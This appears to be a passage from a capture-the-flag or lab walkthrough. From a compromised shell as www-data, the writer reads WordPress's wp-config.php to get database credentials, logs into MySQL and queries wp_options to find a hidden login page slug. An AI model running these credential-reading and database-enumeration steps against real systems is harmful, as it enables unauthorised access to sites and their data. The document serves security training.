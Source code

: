 
**Found MySQL credentials for WordPress:**
```php
(remote) www-data@ubuntu:/var/www/html/wordpress$ cat wp-config.php
[...]
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpressuser' );

/** MySQL database password */
define( 'DB_PASSWORD', '{Redacted}' );
```

Let's login as `wordpressuser` in MySQL, and find the value of `whl_page`!

```sql
(remote) www-data@ubuntu:/var/www/html/wordpress$ mysql -uwordpressuser -p{Redacted}
[...]
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| wordpress          |
+--------------------+

mysql> use wordpress;
[...]

mysql> show tables;
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+

mysql> desc wp_options;
+--------------+---------------------+------+-----+---------+----------------+
| Field        | Type                | Null | Key | Default | Extra          |
+--------------+---------------------+------+-----+---------+----------------+
| option_id    | bigint(20) unsigned | NO   | PRI | NULL    | auto_increment |
| option_name  | varchar(191)        | NO   | UNI |         |                |
| option_value | longtext            | NO   |     | NULL    |                |
| autoload     | varchar(20)         | NO   | MUL | yes     |                |
+--------------+---------------------+------+-----+---------+----------------+

mysql> SELECT * FROM wp_options WHERE option_name='whl_page';
+-----------+-------------+--------------+----------+
| option_id | option_name | option_value | autoload |
+-----------+-------------+--------------+----------+
|       155 | whl_page    | devtools     | yes      |
+-----------+-------------+--------------+----------+
```
